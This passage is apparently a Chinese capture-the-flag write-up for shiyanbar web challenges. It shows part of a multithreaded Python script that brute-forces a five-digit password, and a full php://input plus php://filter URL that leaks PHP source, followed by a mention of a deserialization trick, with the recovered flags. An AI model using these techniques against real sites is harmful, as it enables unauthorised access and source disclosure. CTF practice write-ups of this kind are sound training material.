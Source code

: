 ```python
        r2=r1.get(url1)
        r2.encoding = 'utf-8'
        #print r2.text
        if len(r2.text)!=146:
        	print r2.text,url1
    except Exception as e:
            pass

def main():
	thread_num=100
	site = [[] * 1005 for i in range(thread_num)]
	threads = []
	for i in range(100000):
		j = i % thread_num
		s = '%05d' % i
		site[j].append(s)
	for i in site:
		t = MyThread(i)
		threads.append(t)
	for i in threads:
		i.setDaemon(True)
		i.start()
	for i in threads: 
		i.join()

if __name__ == '__main__':
	main()
```
跑出来密码为`00325`
`flag{U1tkOdgutaVWucdy2AbDWXPGkDx9bS2a}`

## admin
```
http://ctf1.shiyanbar.com/shian-du/
```
`php伪协议php://input`通过第一个if  
再利用
```
http://ctf1.shiyanbar.com/shian-du/?user=php://input&file=php://filter/read=convert.base64-encode/resource=index.php
```
读取index.php和class.php源码
提示flag在`f1a9.php`中，f1a9被过滤了，于是构造`反序列化`字符串读取flag，听说大佬们用这个直接读取了其他web题的flag，膜
![](/img/2017-sab-web5.png)
`flag_Xd{hSh_ctf:e@syt0g3t}` 
